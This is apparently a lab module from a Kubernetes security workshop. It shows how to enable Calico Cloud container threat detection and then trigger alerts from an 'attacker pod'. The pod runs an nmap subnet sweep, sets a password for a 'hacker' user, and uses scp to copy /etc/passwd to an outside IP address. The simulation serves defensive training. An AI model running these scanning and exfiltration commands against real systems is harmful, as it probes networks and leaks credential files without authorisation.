 # Module 6 - Realtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behavior and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defense evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defence` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`

2. If it is not enabled, you will see a page like this:

   --- IMAGE ---

   Click on the Enable Container Threat Detection button, and you will see the following page:

   --- IMAGE ---
 
   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you quitted from its shell, it got deleted. Just create it again, if it's the case.)

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```
   
   Wait a minute and look in the Calico Cloud UI in the `Activity` > `Alerts`.

   Optionally, you can also try the following;
   
   ```bash
   passwd hacker
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

--- 

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](/modules/module-7-quarantine-kspm.md)  <br>

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](/modules/module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  